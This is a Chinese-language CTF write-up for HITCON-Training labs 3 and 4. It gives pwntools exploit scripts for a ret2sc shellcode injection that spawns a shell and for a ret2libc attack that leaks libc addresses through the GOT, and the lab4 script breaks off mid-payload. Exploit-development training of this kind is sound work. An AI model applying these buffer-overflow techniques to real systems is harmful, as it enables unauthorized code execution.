 


## lab3

```
[*] '/home/veritas/pwn/HITCON-Training/LAB/lab3/ret2sc'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments

```

简单的ret2sc，不想多说，但有一点要注意，

![](hitcon_training_e11920149f2637ec0465fc0c9fc506a2.png)

这里他是用esp寄存器而不是ebp寄存器，所以计算padding的时候要用

![](hitcon_training_9a64cf53f92d6872e223418cdb55078b.png)

```
from pwn import *
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']
bin = ELF('ret2sc')

cn = process('./ret2sc')

cn.recv()
cn.sendline(asm(shellcraft.linux.sh()))

cn.recv()

cn.sendline('a'*0x1c+'bbbb'+p32(0x0804A060))

cn.interactive()
```



## lab4

非常基础的ret2libc，不多解释了

```python
from pwn import *
import struct
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']

bin = ELF('ret2lib')
libc = ELF('libc.so')

cn = process('./ret2lib')

cn.recv()
cn.sendline(str(bin.got['read']))
cn.recvuntil('0x')
p_read = int(cn.readuntil('\n'),16)
p_system = p_read - libc.symbols['read'] + libc.symbols['system']
pbinsh = p_read - libc.symbols['read'] + libc.search('/bin/sh').next()
cn.recvuntil('for me :')
pay = 'a'*0x38 + 'bbbb'
```